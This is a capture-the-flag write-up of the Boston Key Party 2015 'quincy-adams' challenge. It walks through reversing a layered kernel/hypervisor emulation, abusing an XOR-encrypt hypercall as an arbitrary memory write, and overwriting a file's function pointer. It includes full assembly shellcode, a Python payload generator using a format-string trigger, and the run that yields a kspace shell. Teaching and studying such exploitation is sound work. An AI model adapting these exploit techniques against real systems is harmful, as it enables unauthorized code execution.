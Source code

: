 ```yaml
---
title: '[bkpCTF-2015] quincy-adams (kspace) write-up'
author: PPP
layout: post
categories:
  - CTF
  - Write-Ups
date: 2015-03-07 13:37:01
---
```

This is a write-up for **quincy-adams** challenge, which is the second part of 3-chained pwnable challenge from <a href="https://ctftime.org/event/163" target="_blank">Boston Key Party CTF</a> last weekend. You can read about the other parts here: <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1224" target="_blank">quincy-center</a>, <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1234" target="_blank">braintree</a>. You can also read from the <a href="https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-adams-kspace-write-up/" target="_blank">origial post</a>.

The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It&#8217;s pretty bad though, sometimes the commands work, sometimes they don&#8217;t&#8230;  
> Exploit it. (kspace flag) 54.165.91.92 8899

The goal is to get &#8220;kspace&#8221; flag by exploiting the kernel space process.

Before we dive in, let's look at what is really going on.

We can think of each process (tz, kspace, uspace) as a separate privilege ring, as their name suggest.

  * **tz** (TrustZone?) &#8211; a &#8220;hypervisor&#8221; layer that implements the &#8220;hypercalls&#8221; (we haven&#8217;t really reversed this too much).
  * **kspace** &#8211; a kernel layer that implements the &#8220;syscalls&#8221;; it maintains the files array and performs the actual tasks such as listing files, removing files, sleeping, and cat&#8217;ing (open & read).
  * **uspace** &#8211; a user layer that implements the interface that the user interacts with; it parses the commands and calls the appropriate &#8220;syscalls&#8221;.

We would start from the **uspace** to get an arbitrary code execution on **uspace** process (as we did in previous write-up), then exploit the **kspace** to allow us to perform an attack against **tz**. Shared memory is arranged by **tz**, such that each layer will get its own memory &#8220;space&#8221; to pass the arguments to {sys, hyper}calls.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_0.png" lightbox="quincy-adams" title="kspace syscall_handler (sub_401180)" %}

We can see that the syscall numbers, which is stored on **user_space[0]**, match with what we saw on **uspace**.

  * **do_ls** loops through the **file_array** list and prints out the name of the file.
  * **do_rm** finds the file in **file_array** with a given filename, and deletes it.
  * **do_create** adds a file into **file_array** up to 16 files. It looks for the spot/bin in the array by checking if the filename is null.  
    This also initializes the file structure:
      * **open_file**, **read_file**, and **delete_file** are the function pointers.  
        * Note that **syscall 95** and **99** are **sleep** and **exit**, respectively, which are not that interesting :p
        * **do_read** finds the file in **file_array** with a given filename, and if the file is &#8220;open&#8221;, its content is copied to the output buffer (2nd argument).
        * **do_open** finds the file in **file_array** with a given filename, and changes its open state. 
            * Only up to 9 files can be open simultaneously.
  {% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_1.png" lightbox="quincy-adams" title="file struct" %}

There is a bug with file creation and deletion, where the number of files in the list gets incremented when creating a file, but it does not get decremented when being deleted. Thus, we can only create up to 16 files and we can&#8217;t create any more file even if we delete some. This didn&#8217;t really affect the exploitation, however :)

If you followed carefully, you&#8217;d have noticed that we didn&#8217;t go over the mysterious **syscall 92** (sub_402380).

This operation, unlike other ones, does not process the user input/arguments here. Instead, it forwards these arguments to **tz** via the &#8220;hypercall&#8221;.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_2.png" lightbox="quincy-adams" title="syscall 92 (kspace)" %}

To be more precise, the 3 arguments are stored starting at **kernel_space + 48**, and the hypercall takes 3 arguments of the **hypercall number (92)**, ****, and the **pointer to the arguments (kernel_space + 48)**.

So what does this hypercall do? Let&#8217;s take a look at **tz** binary now.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="quincy-adams" title="hypercall handler (tz)" %}

As we can see above, **sub_401560** is the hypercall 92 handler.  
It doesn&#8217;t really do anything too fancy. The function performs a very simple &#8220;encryption&#8221; of data.


{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_4.png" lightbox="quincy-adams" title="hypercall 92 handler" %}

It basically **xor**'s the bytes at **src** with the **key** &#8220;charlestown isn&#8217;t that skeytchy.&#8221; and stores the result to **dest**.

There is no restriction on the memory address for **dest** (other than checking if it&#8217;s 0x100000000), which allows us to do <span style="text-decoration: underline;">arbitrary (xor) write</span>. By preparing the **src** buffer with already xor&#8217;d values, we can write any value we want to any memory location.

So, we can use this capability(?) to write useful data structure (such as a function pointer) to gain arbitrary code execution!

Just like **uspace**, **kspace** has NX disabled, so we can put our shellcode somewhere and jump to it.

&nbsp;

The attack plan is as follows:

  1. Create a file, with the content being the shellcode we want to run as kernel.
  2. Overwrite a function pointer (open_file) for the first file (which is the one that we just created in step 1) with the pointer to our shellcode. 
      * The **file_array** is located at kernel_space + 0x3E800 == **0x90003e800**.
      * According to our **struc_files** struct, file_array **+ 0x8** points to the **files** array.
      * Thus, the first file structure will be located at **0x90003e808** and according to our **struc_file**, its content is located at the offset **+0x9**.
      * The first file&#8217;s content == **shellcode** == 0x90003e800 + 0x8 + 0x9 == **0x90003e811**.
      * The first file&#8217;s **open_file** function pointer is at **+0x118** from the file structure, which makes its location **0x90003e920**.
  3. Invoke a syscall #93, which opens a file. 
      * At this point, we will tell it to open our file which has corrupted **open_file** function pointer &#8212; thus, calling into our shellcode.

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
  [BITS 64]
  section .text
  global _start
  _start:
  
  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax
  
  ; syscall 92 (encrypt)
  push qword [rel data]       ; 0x90003e811 (xor'd)
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 92         ; syscall #92
  mov qword [rax + 8], rsp    ; src (ptr to data)
  mov rcx, [rel dst]          ;
  mov qword [rax + 16], rcx   ; dst (0x90003e920)
  mov qword [rax + 24], 0x8   ; len
  
  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax
  
  ; sleep(1)
  mov rdi, 1
  mov rax, 0x400C30
  call rax
  
  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax
  
  ; syscall 93 (open)
  push qword [rel data]       ; now has 0x90003e811
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 93         ; syscall #93
  lea rcx, [rax + 16]         ; (using user_space + 16 as scratch)
  mov qword [rax + 8], rcx    ; filename
  mov rcx, [rel lol]
  mov qword [rax + 16], rcx   ; filename &lt;- &("lol")
  
  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax
  
  data:
  dq 0x7473656572628072   ; 0x90003e811 ^ 0x7473656c72616863 (key)
  dst:
  dq 0x90003e920
  lol:
  db 'lol',0
{% endhighlight %}

<br />

Note that since we are using syscal #92 (encrypt) to perform an arbitrary write to memory, we have to &#8220;encrypt&#8221; the value we want to write beforehand such that it will get &#8220;decrypted&#8221; when it writes. The filename we used is &#8220;lol&#8221;.

<p class="filename">pwn_kspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

Our exploit code looks fairly similar, but we now create a file called &#8216;lol&#8217; first with the shellcode. (The shellcode is the same as what we used for uspace.)

Then, we trigger the bug with our stage1 code.

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_kspace.py
$ (cat ../kspace/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
kspace
{% endhighlight %}
<br />

So far, we have triggered a **uspace** bug to call a syscall (92) in **kspace**, which does a hypercall (92) in **tz**, which allowed us to perform an arbitrary memory write in **kspace **memory.

Amusingly, we will be using the same primitive to get a shell under **tz** context in the next series.

&nbsp;

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]